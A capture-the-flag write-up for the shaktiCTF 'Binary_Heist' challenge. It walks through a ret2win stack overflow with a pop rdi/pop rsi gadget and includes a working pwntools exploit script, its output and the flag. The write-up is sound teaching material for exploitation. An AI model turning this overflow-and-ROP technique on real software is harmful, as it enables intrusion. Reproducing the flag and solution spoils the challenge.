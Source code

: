# Binary_Heist

**Description**:  
Welcome `Agent 007`, infiltrate the vault and succeed in the greatest binary heist in history.

**Author:  [Ath3n1x](https://twitter.com/Ath3n1x)**

**Solution**: 
Looks like Agent 007 is back. Ok, It's `checksec` time:
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
`No PIE and Partial RELRO`, so options like ret2win and got overwrite might be possible. `No canary` also.

Now lets try running the binary:
```
Agency: Welcome, Agent 007. Your mission is to infiltrate the enemy vault.
System: Enter your name for log: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
System: Log entry successful! You will be granted access on entering the correct passcodes.
Segmentation fault (core dumped)
```

Ok so we can overflow the buffer. Lets look at the binary in ida/ghidra. There seems to be a win function called `infiltrate`:
```
void infiltrate(long param_1,long param_2)

{
  undefined8 local_16;
  undefined4 local_e;
  undefined2 local_a;
  
  local_16 = 0x6c75617620746163;
  local_e = 0x78742e74;
  local_a = 0x74;
  if ((param_1 == L'\x1337c0d3') && (param_2 == L'\xacedc0de')) {
    puts("System: Operation Binary Heist - Top-Secret Flag:");
    system((char *)&local_16);
  }
  else {
    puts("WARNING: Intruder!!!. Authorities have been warned.");
  }
  return;
}
```

Yep, its a ret2win with arguments. Now we can hand everything over to gdb.

**TODO**:

*1. ~~Find offset~~*
```
pwndbg> cyclic -l daaaaaaa
Finding cyclic pattern of 8 bytes: b'daaaaaaa' (hex: 0x6461616161616161)
Found at offset 24
```
                            So a padding of length: 24.


*2. ~~Find suitable gadget~~*    
```
$ ROPgadget --binary binary_heist | grep "pop rdi"
0x0000000000401207 : pop rdi ; pop rsi ; ret
```

*3. ~~Get address of win function~~*

```0x0000000000401243  infiltrate```


*4. ~~Craft payload~~*

```payload = offset + p64(pop_rdi_rsi_ret) + p64(0x1337c0d31337c0d3) + p64(0xacedc0deacedc0de) + p64(0x401243)```

**Exploit:**
```
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:  
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: 
        return process([exe] + argv, *a, **kw)

gdbscript = '''
init-pwndbg
b *main
b *input
b *infiltrate
continue
'''.format(**locals())

exe = './binary_heist'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

===========================================================

offset = b'a'*24

#io = remote("13.234.11.113",31491)
io = start()

io.recvuntil('log:')

pop_rdi_rsi_ret = 0x401207

print(elf.functions.infiltrate) #0x401243

payload = offset + p64(pop_rdi_rsi_ret) + p64(0x1337c0d31337c0d3) + p64(0xacedc0deacedc0de) + p64(0x401243) 

io.sendline(payload)

io.interactive()
```

On running the script:
```
[DEBUG] Received 0x2b bytes:
    b'shaktiCTF{C0ngr4t5!_n0w_s1ng_0_b3ll4_c140}\n'
shaktiCTF{C0ngr4t5!_n0w_s1ng_0_b3ll4_c140}
```

:thumbsup: Success


Flag: `shaktictf{C0ngr4t5!_n0w_s1ng_0_b3ll4_c140}`   
